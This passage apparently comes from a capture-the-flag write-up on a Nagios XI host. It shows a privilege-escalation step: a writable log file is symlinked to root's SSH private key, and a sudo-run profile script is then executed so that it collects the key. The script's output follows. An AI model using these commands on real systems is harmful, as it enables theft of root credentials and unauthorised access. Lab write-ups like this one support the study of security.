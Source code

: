 That means I can modify it. The existing it empty. I’ll overwrite it with a symlink:

```

nagios@monitored:~$ ln -sf /root/.ssh/id_rsa /usr/local/nagiosxi/tmp/phpmailer.log
nagios@monitored:~$ ls -l /usr/local/nagiosxi/tmp/phpmailer.log
lrwxrwxrwx 1 nagios nagios 17 May  9 08:50 /usr/local/nagiosxi/tmp/phpmailer.log -> /root/.ssh/id_rsa

```

Now I run `getuserprofile.sh`:

```

nagios@monitored:~$ sudo /usr/local/nagiosxi/scripts/components/getprofile.sh 0xdf
mv: cannot stat '/usr/local/nagiosxi/tmp/profile-0xdf.html': No such file or directory
-------------------Fetching Information-------------------
Please wait.......
Creating system information...
Creating nagios.txt...
Creating perfdata.txt...
Creating npcd.txt...
Creating cmdsubsys.txt...
Creating event_handler.txt...
Creating eventman.txt...
Creating perfdataproc.txt...
Creating sysstat.txt...
Creating systemlog.txt...
Retrieving all snmp logs...
Creating apacheerrors.txt...
Creating mysqllog.txt...
Getting xi_users...
Getting xi_usermeta...
Getting xi_options(mail)...
Getting xi_otions(smtp)...
Creating a sanitized copy of config.inc.php...
Creating memorybyprocess.txt...
Creating filesystem.txt...
Dumping PS - AEF to psaef.txt...
Creating top log...
Creating sar log...
Copying objects.cache...
Copying MRTG Configs...
tar: Removing leading `/' from member names
Counting Performance Data Files...
Counting MRTG Files...
Getting Network Information...
Getting CPU info...
Getting memory info...
Getting ipcs Information...
Getting SSH terminal / shellinabox yum info...
Getting Nagios Core version...
Getting NPCD version...
Getting NRPE version...
Getting NSCA version...
Getting NagVis version...
Getting WKTMLTOPDF version...
Getting Nagios-Plugins version...
Getting BPI configs...
Getting Firewall information...
Getting maillog...
tail: cannot open '/var/log/maillog' for reading: No such file or directory
Getting phpmailer.log...
Getting nom data...
```